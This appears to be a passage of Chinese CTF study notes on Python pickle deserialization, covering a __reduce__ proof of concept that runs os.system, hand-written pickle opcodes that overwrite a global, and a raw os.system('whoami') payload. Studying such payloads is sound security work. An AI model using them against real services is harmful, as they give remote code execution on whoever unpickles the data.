 ### python反序列化知识

python通过loads反序列化，dumps序列化。和php一样可以序列化字符串、数组、数和类

pickletools可以反汇编一个序列化出来的字符串，方便调试，分析案例见`https://xz.aliyun.com/t/7436`，文章详细介绍了反系列化原理，并且给出了opcode的用法

通用的poc，利用`__reduce__`RCE

```
import pickle
import os

class genpoc(object):
    def __reduce__(self):
        s = """echo test >poc.txt"""  # 要执行的命令
        return os.system, (s,)        # reduce函数必须返回元组或字符串

e = genpoc()
poc = pickle.dumps(e)

print(poc) # 此时，如果 pickle.loads(poc)，就会执行命令
```



但是需要一次执行多个函数时就不能光用`__reduce__`，reduce一次只能执行一个函数(除了exec可以堆叠执行命令)。当然这道题就一个reduce就可以了。opcode的编写实例：

```
# main.py
import pickle
import secret

opcode='''c__main__
secret
(S'name'
S'1'
db.'''

print('before:',secret.name)

output=pickle.loads(opcode.encode())

print('output:',output)
print('after:',secret.name)
```



上述代码用`c`获取全局变量secret，用`d`建立一个字典，`b`用栈的第一个元素做key,第二个元素做属性，`(`压栈，`S''`为字符串对象，`.`结束。所以以上代码的意思为name=1对全局变量name的值进行覆盖。

同理，构造函数可以用`R`,`i`,`o`

1. R

```
b'''cos
system
(S'whoami'
tR.'''
```
